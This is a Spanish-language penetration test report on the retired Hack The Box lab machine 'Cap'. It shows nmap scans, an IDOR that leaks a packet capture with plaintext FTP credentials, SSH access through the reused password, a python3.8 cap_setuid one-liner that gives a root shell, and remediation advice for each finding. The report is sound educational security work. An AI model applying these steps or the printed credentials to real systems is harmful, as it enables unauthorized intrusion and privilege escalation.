

# Informe de Prueba de Penetración — Cap

| | |
|---|---|
| **ID de informe** | HO-0007-00 |
| **Objetivo** | Cap (`10.129.85.254`) |
| **Plataforma** | Hack The Box — máquina retirada |
| **Tipo de prueba** | Caja negra (black box) |
| **Fecha de ejecución** | 2026-10-19 |
| **Autor** | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión** | 1.0 |
| **Clasificación** | Público — uso educativo |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box) y sobre una máquina retirada. Ninguna técnica descrita debe aplicarse
> sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha | Descripción |
|---------|-------|-------------|
| 1.0 | 2026-10-19 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Cap** simulando un atacante externo sin credenciales ni
conocimiento previo del entorno, con el fin de obtener el máximo nivel de privilegios
posible.

### 1.2 Resultado

> Se obtuvo control total del servidor. Un panel de administración sin contraseña
> permitió descargar una grabación de tráfico de red que no debía ser pública y que
> contenía, en texto claro, el usuario y la contraseña de una cuenta real del sistema. Esa
> misma contraseña abría también una sesión remota completa, y una vez dentro, un permiso
> mal configurado en el intérprete de Python permitió convertirse en administrador del
> servidor. Un atacante real podría robar, modificar o destruir toda la información
> alojada en el equipo.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
|:-------:|:----:|:-----:|:----:|:-----------:|
| 1 | 1 | 1 | 0 | 0 |

### 1.4 Resumen de hallazgos

| ID | Hallazgo | Severidad | CVSS |
|----|----------|-----------|------|
| [HO-0007-02](#ho-0007-02--descarga-no-autorizada-de-capturas-de-red-ajenas-idor-con-exposición-de-credenciales-en-texto-plano) | Descarga no autorizada de capturas de red ajenas (IDOR) con exposición de credenciales | Crítica | 9.1 |
| [HO-0007-03](#ho-0007-03--permiso-linux-excesivo-cap_setuid-en-el-intérprete-python-38) | Permiso Linux excesivo (`cap_setuid`) en el intérprete Python 3.8 | Alta | 7.8 |
| [HO-0007-01](#ho-0007-01--panel-de-administración-de-red-accesible-sin-autenticación) | Panel de administración de red accesible sin autenticación | Media | 5.3 |

> HO-0007-01 y HO-0007-02 están relacionados: el primero es la puerta de entrada al panel
> y el segundo es la debilidad concreta que filtró las credenciales. Se documentan por
> separado porque cada uno tiene una corrección independiente.

### 1.5 Recomendaciones prioritarias

1. Restringir o eliminar el acceso a capturas históricas del panel y purgar cualquier credencial expuesta en ellas.
2. Retirar la capability `cap_setuid` de `/usr/bin/python3.8`.
3. Exigir autenticación en todo el panel "Security Dashboard" y evitar la reutilización de contraseñas entre servicios.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo | Dirección | Incluido |
|--------|-----------|:--------:|
| Cap | `10.129.85.254` | Sí |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la
plataforma y otros jugadores.

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution
Standard), apoyándose en **OWASP WSTG** para los componentes web:

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones, tecnologías y superficie de ataque.
3. **Análisis de vulnerabilidades** — validación manual de posibles fallos.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — escalada de privilegios y movimiento lateral.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente | Detalle |
|------------|---------|
| Sistema | Linux (kernel 7.2.11-zen1-1-zen) |
| Conexión | VPN de Hack The Box |
| Herramientas | nmap 7.992, navegador web, Wireshark/tshark, ftp, ssh, getcap, python3.8 |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1** (ver tabla de criterios estándar).

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.85.254
nmap -p21,22,80 -sCV -Pn -n -T4 -oN loot/detallado.txt 10.129.85.254
```

| Puerto | Servicio | Versión | Observaciones |
|--------|----------|---------|---------------|
| 21/tcp | FTP | vsftpd 3.0.3 | Sin acceso anónimo; CVE conocido de DoS descartado por estar fuera de alcance. |
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 | Vector de acceso tras obtener credenciales. |
| 80/tcp | HTTP | Gunicorn — "Security Dashboard" | Principal superficie de ataque. |

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

El sitio en el puerto 80 es un panel de monitoreo de red ("Security Dashboard") sin
ningún mecanismo de autenticación: se accede directamente sin usuario ni contraseña
(**HO-0007-01**).

La función "Security Snapshot (5 Second PCAP + Analysis)" (`/data/<ID>`) dispara una
captura de tráfico de 5 segundos y la pone a disposición para descarga. Cada captura se
referencia con un número en la URL. Los valores de `ID` distintos de `0` regeneran una
captura en vivo en cada consulta (pocos paquetes); el valor `0` no cambia entre consultas:
siempre devuelve el mismo archivo histórico de 72 paquetes, accesible para cualquier
visitante sin verificar a quién pertenece (**HO-0007-02**, IDOR).


*Figura 1 — Panel "Security Dashboard" mostrando una captura regenerada.*


*Figura 2 — El `ID=0` siempre devuelve el mismo archivo almacenado.*

Se descargó la captura del `ID 0` y se analizó filtrando tráfico FTP:

```bash
tshark -r 0.pcap -Y "tcp.port==21" -T fields \
  -e ip.src -e ip.dst -e ftp.request.command -e ftp.request.arg -e ftp.response.arg
```

La captura (72 paquetes, duración 31 s) registra una sesión FTP completa en texto plano,
incluido el login:

```text
USER  nathan
PASS  Buck3tH4TF0RM3!
Login successful.
```

Las credenciales `nathan:Buck3tH4TF0RM3!` quedaron expuestas por el fallo de control de
acceso del panel, no por un ataque directo a FTP.

> Evidencia: [`loot/0.pcap`](loot/0.pcap), [`loot/credentials_wireshark.txt`](loot/credentials_wireshark.txt)

### 3.4 Acceso inicial

Con las credenciales obtenidas se accedió por FTP y se recuperó `user.txt`:

```bash
ftp 10.129.85.254
# Name: nathan
# Password: Buck3tH4TF0RM3!
ftp> ls
ftp> get user.txt
```


*Figura 3 — Acceso FTP y recuperación de la flag de usuario.*

Se probó la reutilización de la misma contraseña en SSH, con resultado positivo:

```bash
ssh nathan@10.129.85.254
# Password: Buck3tH4TF0RM3!
```

Esto otorgó una shell interactiva completa (TTY estable), por lo que no fue necesaria
ninguna estabilización adicional.


*Figura 4 — Acceso SSH con la contraseña reutilizada de FTP.*

### 3.5 Movimiento lateral

No aplica: el mismo usuario (`nathan`) obtenido por FTP se reutilizó directamente en SSH.

### 3.6 Escalada de privilegios

Ver **[HO-0007-03](#ho-0007-03--permiso-linux-excesivo-cap_setuid-en-el-intérprete-python-38)**.

---

## 4. Hallazgos técnicos

### HO-0007-01 — Panel de administración de red accesible sin autenticación

| | |
|---|---|
| **Severidad** | Media |
| **CVSS v3.1** | 5.3 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` |
| **CWE** | [CWE-306](https://cwe.mitre.org/data/definitions/306.html) — Missing Authentication for Critical Function |
| **CVE** | — |
| **Componente afectado** | Aplicación web "Security Dashboard" — Gunicorn, `10.129.85.254:80` |
| **Estado** | Explotada |

#### Descripción

El panel web de monitoreo de red es accesible sin usuario ni contraseña desde cualquier
punto con conectividad al puerto 80. La causa raíz es la ausencia total de control de
acceso en la aplicación.

#### Prueba de concepto

Acceso directo a `http://10.129.85.254/` sin credenciales (ver Figura 1).

#### Impacto

Cualquier visitante puede ver el estado de la red y disparar o consultar capturas de
tráfico. Por sí solo expone información operativa de bajo riesgo, pero es la puerta de
entrada que habilita HO-0007-02.

#### Remediación

- **Corto plazo:** restringir el acceso al puerto 80 por IP/VPN mientras se implementa autenticación.
- **Largo plazo:** exigir usuario y contraseña para cualquier funcionalidad del panel, incluida la consulta y descarga de capturas.

#### Referencias

- [CWE-306 — Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

### HO-0007-02 — Descarga no autorizada de capturas de red ajenas (IDOR) con exposición de credenciales en texto plano

| | |
|---|---|
| **Severidad** | Crítica |
| **CVSS v3.1** | 9.1 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | [CWE-639](https://cwe.mitre.org/data/definitions/639.html) — Authorization Bypass Through User-Controlled Key (IDOR), junto a [CWE-312](https://cwe.mitre.org/data/definitions/312.html) — Cleartext Storage of Sensitive Information |
| **CVE** | — |
| **Componente afectado** | Endpoint "Security Snapshot" (parámetro `ID`) — `10.129.85.254:80` |
| **Estado** | Explotada |

#### Descripción

El endpoint que sirve capturas de tráfico identifica cada una por un número secuencial en
la URL, sin verificar que quien la pide tenga derecho a verla. La captura con `ID=0` es
una grabación histórica fija que contiene una sesión FTP completa en texto plano,
incluidas sus credenciales.

#### Prueba de concepto

**Paso 1.** Descubrir que `/data/0` devuelve siempre el mismo archivo (72 paquetes), a
diferencia de otros IDs que regeneran tráfico en vivo.

**Paso 2.** Descargar y analizar la captura filtrando por el puerto FTP.

```bash
tshark -r 0.pcap -Y "tcp.port==21" -T fields \
  -e ip.src -e ip.dst -e ftp.request.command -e ftp.request.arg -e ftp.response.arg
```

**Paso 3.** Extraer las credenciales expuestas: `nathan:Buck3tH4TF0RM3!`.

#### Impacto

Cualquier visitante sin autenticar puede recuperar usuario y contraseña válidos del
sistema simplemente cambiando un número en la URL. Esas credenciales resultaron además
reutilizadas en SSH, lo que las convirtió en acceso interactivo completo al servidor.

#### Remediación

- **Corto plazo:** deshabilitar la descarga de capturas antiguas hasta implementar control de acceso; eliminar o depurar cualquier captura histórica que contenga credenciales reales.
- **Largo plazo:** no referenciar objetos por un ID secuencial predecible — usar identificadores aleatorios (UUID) y validar permisos del solicitante; forzar el uso de FTP sobre un canal cifrado para que una captura no exponga contraseñas en texto plano.

#### Referencias

- [CWE-639 — Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
- [CWE-312 — Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- [OWASP — Insecure Direct Object References](https://owasp.org/www-community/attacks/Insecure_Direct_Object_Reference)

---

### HO-0007-03 — Permiso Linux excesivo (`cap_setuid`) en el intérprete Python 3.8

| | |
|---|---|
| **Severidad** | Alta |
| **CVSS v3.1** | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-250](https://cwe.mitre.org/data/definitions/250.html) — Execution with Unnecessary Privileges |
| **CVE** | — |
| **Componente afectado** | `/usr/bin/python3.8` (Linux capabilities) |
| **Estado** | Explotada |

#### Descripción

El binario `/usr/bin/python3.8` tiene asignada la capability `cap_setuid=ep`, que le
permite cambiar su propio UID a `0` sin pasar por `sudo` ni por ningún control adicional.
La enumeración de `sudo -l` y de binarios SUID no reveló ningún vector; la enumeración de
capabilities sí.

#### Prueba de concepto

**Paso 1.** Enumeración local de permisos.

```bash
id; sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
```

```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

**Paso 2.** Explotación siguiendo la técnica documentada en GTFOBins para binarios con
`cap_setuid`.

```bash
python3.8 -c 'import os; os.setuid(0); os.execl("/bin/bash", "sh")'
```

```text
sh-5.0# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```


*Figura 5 — Explotación de `cap_setuid` para obtener una shell de root.*

#### Impacto

Un usuario local sin privilegios ejecuta una línea de Python para asumir UID 0 y obtener
una shell de `root`, logrando control total del sistema (lectura, modificación y
persistencia sobre cualquier archivo o servicio).

#### Remediación

- **Corto plazo:** retirar la capability (`setcap -r cap_setuid+ep /usr/bin/python3.8`) si no es un requisito funcional real.
- **Largo plazo:** si se necesitara ese privilegio, sustituir por un binario dedicado y mínimo en lugar de un intérprete de propósito general; auditar periódicamente `getcap -r /` contra una lista aprobada.

#### Referencias

- [CWE-250 — Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)
- [GTFOBins — python (capabilities)](https://gtfobins.github.io/gtfobins/python/#capabilities)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel | Usuario | Método | Prueba |
|-------|---------|--------|--------|
| Usuario | `nathan` | HO-0007-02 | `user.txt` — `c15e0440************************` |
| Administrador | `root` | HO-0007-03 | `root.txt` — `24060fc8************************` |

### 5.2 Información sensible expuesta

| Tipo | Ubicación | Observación |
|------|-----------|-------------|
| Credenciales FTP en texto plano | Captura histórica `ID=0` del panel web | Reutilizadas también en SSH. |

> Las credenciales y flags se muestran parcialmente censuradas.

### 5.3 Limpieza

| Artefacto | Ubicación | Estado |
|-----------|-----------|--------|
| — | — | No se cargaron archivos ni herramientas en el objetivo. |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

Dos fallos de configuración, encadenados, permitieron el compromiso total: un panel sin
autenticación que expuso credenciales reales mediante un IDOR, y una capability excesiva
en un intérprete de Python que eliminó la barrera entre usuario sin privilegios y root.
Ninguno de los dos pasos requirió explotar software vulnerable ni técnicas avanzadas.

### 6.2 Aprendizajes del auditor

- Un identificador secuencial en una URL es, en la práctica, tan sensible como una
  contraseña si detrás hay datos que no deberían ser públicos.
- Las capabilities de Linux (`getcap -r /`) son un vector de escalada tan relevante como
  el SUID o `sudo -l`, y conviene incluirlas de forma sistemática en la enumeración local.
- La reutilización de contraseñas entre servicios (FTP y SSH) amplifica el impacto de una
  única filtración.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — todos los puertos</summary>

```text
# Nmap 7.992 scan initiated Mon Oct 19 15:17:05 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.85.254
Nmap scan report for 10.129.85.254
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

# Nmap done at Mon Oct 19 15:17:19 2026 -- 1 IP address (1 host up) scanned in 13.78 seconds
```

</details>

<details>
<summary>nmap — escaneo de servicios</summary>

```text
# Nmap 7.992 scan initiated Mon Oct 19 15:30:56 2026 as: nmap -p21,22,80 -sCV -Pn -n -T4 -oN detallado.txt 10.129.85.254
Nmap scan report for 10.129.85.254
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 19 15:31:10 2026 -- 1 IP address (1 host up) scanned in 14.15 seconds
```

</details>

### B. Scripts y exploits

<details><summary>Explotación de cap_setuid (python3.8)</summary>

```bash
python3.8 -c 'import os; os.setuid(0); os.execl("/bin/bash", "sh")'
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica | Técnica | ID |
|---------|---------|----|
| Credential Access | Unsecured Credentials | [T1552](https://attack.mitre.org/techniques/T1552/) |
| Initial Access | Valid Accounts | [T1078](https://attack.mitre.org/techniques/T1078/) |
| Privilege Escalation | Abuse Elevation Control Mechanism | [T1548](https://attack.mitre.org/techniques/T1548/) |

### D. Referencias generales

- [Página de la máquina en HTB](https://app.hackthebox.com/machines/Cap)
- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK](https://attack.mitre.org/)
